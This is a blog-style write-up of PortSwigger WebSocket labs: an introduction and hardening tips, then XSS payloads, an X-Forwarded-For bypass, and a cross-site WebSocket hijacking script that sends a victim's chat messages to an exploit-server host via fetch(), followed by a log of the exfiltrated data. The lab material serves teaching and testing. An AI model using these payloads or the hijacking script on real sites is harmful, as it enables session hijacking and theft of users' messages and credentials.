 ```yaml
---
layout: post
title: "Web Sockets"
date: 2025-04-06 00:00:00 +0100
categories: [portswigger, hacking]
tags: [ctf, web sockets, web]
---
```


![ws](pics/websockets.png)

### WebSockets intro
- WebSocket is a communication protocol that provides full-duplex (two-way) communication between a client (usually a browser) and a server over a single, long-lived TCP connection. Unlike HTTP, where the client must initiate every request, WebSockets allow both the client and server to send data anytime — perfect for real-time applications like:

- Chat apps

- Online gaming

- Live stock trading

- Collaborative editing

- IoT dashboards

#### Benefits

- Low latency: Messages are sent instantly without repeatedly opening/closing connections.

- Bidirectional: Server can push data to client without the client asking first.

- Less overhead: Smaller message headers compared to HTTP.

#### Hardening

- Use Secure Protocol -> `wss://`

- Origin Checking (Validate the Origin header)

- Authenticate Users (don’t rely on IP addresses or Origin alone — tie WebSocket connections to authenticated sessions - JWTs, cookies, etc.)

- Set Timeouts and Limits (max message size, max connections per IP, idle timeout - disconnect if no activity)

- Close Connections Gracefully (if something goes wrong or authentication fails, close the connection with proper WebSocket close codes -> 1008 = policy violation, 1003 = unsupported data, etc.)

- Input Validation & Sanitization

- Monitor logs

- Use WAF/Reverse Proxy

### Websockets labs

#### Manipulating WebSocket messages to exploit vulnerabilities
- The majority of input-based vulnerabilities affecting WebSockets can be found and exploited by tampering with the contents of WebSocket messages.

`{"message":"Hello chat!"` -> `{"message":"<img src=1 onerror='alert(1)'>"}`

#### Manipulating the WebSocket handshake to exploit vulnerabilities
- Previous option will lead to block, but you could `reconnect` from the websocket history tab using headers like these: `X-Forwarded-For: 1.1.1.1` or `X-Forwarded-For: 127.0.0.1` and change your payload to something like these

- `{"message":"Hello chat!"` -> `{"message":"<img src=1 oNeRrOr=alert`1`>"}`
- `{"message":"Hello chat!"` -> `{"message":"</script><script>alert(1)</script>"}`
- `{"message":"Hello chat!"` -> `{"message":"<script>\x61\x6c\x65\x72\x74(1)</script>"}`

#### Cross-site WebSocket hijacking
- Payload to use if you don't have a professional Burp

```html
<script>
    var ws = new WebSocket('wss://0a0f000903ba45ba80500daf008600d5.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://exploit-0ab00018030445c580950c3b01ed00d4.exploit-server.net/exploit?mes' + btoa(event.data));
    };
</script>
```

- As always -> Store -> Deliver to victim and then check logs, you should see something like this:

```text
...
188.146.36.29   2025-04-06 18:54:43 +0000 "POST / HTTP/1.1" 302 "user-agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0"
188.146.36.29   2025-04-06 18:54:43 +0000 "GET /log HTTP/1.1" 200 "user-agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0"
188.146.36.29   2025-04-06 18:54:43 +0000 "GET /resources/css/labsDark.css HTTP/1.1" 200 "user-agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0"
188.146.36.29   2025-04-06 18:54:59 +0000 "GET / HTTP/1.1" 200 "user-agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0"
188.146.36.29   2025-04-06 18:55:00 +0000 "GET /resources/css/labsDark.css HTTP/1.1" 200 "user-agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0"
188.146.36.29   2025-04-06 19:03:39 +0000 "POST / HTTP/1.1" 200 "user-agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0"
188.146.36.29   2025-04-06 19:03:39 +0000 "GET /resources/css/labsDark.css HTTP/1.1" 200 "user-agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0"
188.146.36.29   2025-04-06 19:03:42 +0000 "POST / HTTP/1.1" 302 "user-agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0"
188.146.36.29   2025-04-06 19:03:42 +0000 "GET /deliver-to-victim HTTP/1.1" 302 "user-agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0"
10.0.3.69       2025-04-06 19:03:43 +0000 "GET /exploit/ HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.69       2025-04-06 19:03:43 +0000 "GET /exploit?mes=eyJ1c2VyIjoiSGFsIFBsaW5lIiwiY29udGVudCI6IkhlbGxvLCBob3cgY2FuIEkgaGVscD8ifQ== HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.69       2025-04-06 19:03:43 +0000 "GET /exploit?mes=eyJ1c2VyIjoiWW91IiwiY29udGVudCI6IkkgZm9yZ290IG15IHBhc3N3b3JkIn0= HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.69       2025-04-06 19:03:43 +0000 "GET /exploit?mes=eyJ1c2VyIjoiSGFsIFBsaW5lIiwiY29udGVudCI6Ik5vIHByb2JsZW0gY2FybG9zLCBpdCZhcG9zO3MgMm9wNDJjNnRhMjdnaHJoeGRlM2MifQ== HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.69       2025-04-06 19:03:43 +0000 "GET /exploit?mes=eyJ1c2VyIjoiWW91IiwiY29udGVudCI6IlRoYW5rcywgSSBob3BlIHRoaXMgZG9lc24mYXBvczt0IGNvbWUgYmFjayB0byBiaXRlIG1lISJ9 HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.69       2025-04-06 19:03:43 +0000 "GET /exploit?mes=eyJ1c2VyIjoiQ09OTkVDVEVEIiwiY29udGVudCI6Ii0tIE5vdyBjaGF0dGluZyB3aXRoIEhhbCBQbGluZSAtLSJ9 HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
188.146.36.29   2025-04-06 19:03:43 +0000 "GET / HTTP/1.1" 200 "user-agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0"
188.146.36.29   2025-04-06 19:03:43 +0000 "GET /resources/css/labsDark.css HTTP/1.1" 200 "user-agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0"
188.146.36.29   2025-04-06 19:03:48 +0000 "POST / HTTP/1.1" 302 "user-agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0"
```

- There you will find some encoded messages needs to be checked and voila ...

![ws1](pics/wsockets.png)